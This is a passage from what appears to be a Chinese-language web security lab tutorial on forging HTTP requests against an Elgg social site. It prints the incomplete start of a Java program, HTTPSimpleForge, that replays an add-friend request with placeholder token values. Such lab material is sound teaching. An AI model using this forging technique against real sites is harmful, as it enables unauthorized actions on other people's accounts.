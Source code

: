 点击这里添加好友。

step2:

![图片描述信息](img/userid9094labid937time1430793133381.jpg)

step2 中的截图即为请求信息。

当攻击者知道了他的请求以后，就可以编写一个 Java 程序发送相同的 HTTP 请求达到创建项目的目的，当然还可以进行其他的请求：

HTTP 访问请求： >1\. 打开一个连接到 web 服务器。

>2\. 设置必要的 HTTP 头信息。

>3\. 发送请求到 web 服务器。

>4\. 得到来自 web 服务器的响应。

```
 import java.io.*;
    import java.net.*;

    public class HTTPSimpleForge {

    public static void main(String[] args) throws IOException {
    try {
    int responseCode;
    InputStream responseIn=null;
    String requestDetails = "&__elgg_ts=<<correct_elgg_ts_value>>
    &__elgg_token=<<correct_elgg_token_value>>";
    // URL to be forged.
    URL url = new URL ("http://www.xsslabelgg.com/action/friends/add?
    friend=<<friend_user_guid>>"+requestDetails);
    // URLConnection instance is created to further parameterize a
    // resource request past what the state members of URL instance
    // can represent.
    HttpURLConnection urlConn = (HttpURLConnection) url.openConnection();
    if (urlConn instanceof HttpURLConnection) {
    urlConn.setConnectTimeout(60000);
    urlConn.setReadTimeout(90000);
    }
    // addRequestProperty method is used to add HTTP Header Information.
    // Here we add User-Agent HTTP header to the forged HTTP packet.
```